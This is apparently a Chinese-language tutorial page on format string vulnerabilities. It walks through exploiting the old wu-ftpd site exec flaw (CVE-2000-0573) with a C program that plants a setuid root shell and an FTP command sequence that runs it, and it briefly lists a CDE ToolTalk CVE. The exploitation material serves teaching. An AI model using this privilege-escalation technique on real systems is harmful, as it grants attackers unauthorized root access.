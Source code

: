 ## 漏洞实例
* Wu-ftpd([CVE-2000-0573](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0573))
	- wu-ftpd 2.6.1之前版本的`insite_exec()`函数中存在一个格式字符串漏洞
    - site exec的参数未经验证，可能导致任意命令执行，用户可能会利用命令达到权限提升的目的

        ```c title="duh.c"
        main() {
           seteuid(0);
           setegid(0);
           system("/bin/cp /bin/sh ./sh");
           system("/bin/chmod 6755 ./sh");
        }
        ```

        ```bash hl_lines="5 7"
        $ make duh
        $ ftp -n localhost
        user: <userid>
        password: <passwd>
        ftp> quote site exec bash -c id
        # (1)!
        ftp> quote site exec bash -c duh # (2)!
        ftp> quit
        $ ./sh
        # (3)!
        ```

        1. 如果存在漏洞，则会输出 'uid=0, gid=0, euid=<yourid>, egid=<your-gids>'
        2. 前述`duh.c`文件
        3. 原来可能不够权限运行shell，现在权限提升了，可以运行了

* CDE ToolTalk([CVE-2001-0717](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2001-0717))
	- 在所有版本的CDE ToolTalk RPC数据库服务器上都存在一个可被远程利用的格式字符串漏洞

[^1]:转换规范的参考资料：https://docs.microsoft.com/zh-cn/cpp/c-runtime-library/format-specification-syntax-printf-and-wprintf-functions?view=vs-2019
